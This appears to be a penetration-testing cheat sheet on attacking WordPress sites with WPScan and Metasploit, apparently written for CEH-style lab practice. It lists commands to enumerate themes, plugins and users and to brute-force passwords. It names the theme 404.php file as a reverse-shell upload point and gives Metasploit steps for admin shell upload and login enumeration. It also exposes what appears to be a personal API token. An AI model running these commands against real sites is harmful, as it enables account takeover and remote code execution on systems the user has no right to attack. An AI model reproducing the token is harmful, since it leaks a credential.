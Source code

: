 ```yaml
---
description: https://www.kali.org/tools/wpscan/
---
```


# 🔍 WPScan

####

```bash
wpscan -h #List WPscan Parameters
wpscan --update #Update WPscan

#Enumerate WordPress using WPscan


wpscan --url "http://<TARGET_IP>" -e t #All Themes Installed

wpscan --url "http://<TARGET_IP>" -e vt #Vulnerable Themes Installed

wpscan --url "http://<TARGET_IP>"  -e p #All Plugins Installed

wpscan --url "http://<TARGET_IP>"  -e vp #Vulnerable Themes Installed

wpscan --url "http://<TARGET_IP>"  -e u #WordPress Users

wpscan --url "http://<TARGET_IP>"  --passwords path-to-wordlist #Brute Force WordPress Passwords

#Upload Reverse Shell to WordPress
http://<IP>/wordpress/wp-content/themes/twentyfifteen/404.php

#Upload using Metasploit
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > set USERNAME admin
msf exploit(wp_admin_shell_upload) > set PASSWORD admin
msf exploit(wp_admin_shell_upload) > set targeturi /wordpress
msf exploit(wp_admin_shell_upload) > exploit
```

<pre class="language-bash"><code class="lang-bash"><strong>#User Enumeration
</strong><strong>wpscan --url https://example/ --enumerate u
</strong>
#Bruteforce
wpscan --url https://example/ --passwords wordlist.txt --usernames samson
</code></pre>

### **Enumerate and hack a web app using wpscan and metasploit**

* wpscan — api-token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads — url [http://10.10.10.16:8080/CEH](http://10.10.10.16:8080/CEH) — plugins-detection aggressive — enumerate u
* — enumerate u: Specify the enumeration of users
* API Token: Register at [https://wpscan.com/register](https://wpscan.com/register)
* Mine: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads
* service postgresql start
* msfconsole
* use auxiliary/scanner/http/wordpress\_login\_enum
* show options
* set PASS\_FILE password.txt
* set RHOST 10.10.10.16
* set RPORT 8080
* set TARGETURI [http://10.10.10.16:8080/CEH](http://10.10.10.16:8080/CEH)
* set USERNAME admin
* run
* Find the credential

###

### Additional Resources

{% embed url="https://www.geeksforgeeks.org/wpscan-tool-in-kali-linux/" %}

{% embed url="https://blog.sucuri.net/2015/12/using-wpscan-finding-wordpress-vulnerabilities.html" %}

{% embed url="https://www.hackingtutorials.org/web-application-hacking/hack-a-wordpress-website-with-wpscan/" %}

{% embed url="https://linuxhint.com/wpscan_wordpress_vulnerabilities_scan/" %}

{% embed url="https://www.wpwhitesecurity.com/strong-wordpress-passwords-wpscan/" %}





